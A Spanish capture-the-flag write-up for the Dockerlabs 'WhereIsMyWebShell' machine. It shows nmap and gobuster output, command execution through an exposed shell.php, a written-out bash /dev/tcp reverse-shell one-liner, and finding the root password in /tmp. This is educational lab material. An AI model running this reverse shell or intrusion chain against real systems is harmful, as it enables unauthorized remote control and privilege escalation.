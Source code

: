Máquina WhereIsMyWebShell

Reconocimiento con nmap:

```
# Nmap 7.94SVN scan initiated Tue May 14 15:21:39 2024 as: nmap -p- --open -sSCV -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-05-14 15:21:40 EDT for 6s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 14 15:21:46 2024 -- 1 IP address (1 host up) scanned in 7.23 seconds
```

Vemos que hay un puerto 80 así que deducimos que la explotación es via web, vamos a verla

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/ddd19795-eb6f-4842-b466-a2d37e14f620)

xd

Bueno vamos a fuzzear:

```
┌──(kali㉿kali)-[~/Escritorio/HTB/Mtmp]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 92811 / 622932 (14.90%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 101373 / 622932 (16.27%)
===============================================================
Finished
===============================================================
```

shell.php, creo que va por ahí la explotaación, todo super real:


![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/c882156f-75fe-4c4b-8c48-98cdac7f3288)

Ejecución remota de comandos:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/5992d650-2914-47cf-a982-bb2733267d1f)

Utilizamos el tipico reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/261cc7e1-31ae-4998-bb70-4abe6ca977c7)

Teniendo en cuenta lo que nos dice la página web, vamos al directorio /tmp

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/1546fc13-aa44-47ea-abb7-307258d5eb2f)

y como vemos la contraseña de root, todo muy real jjajaj


![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/db563838-1b5a-43ef-97bd-76aeb45b1fa0)


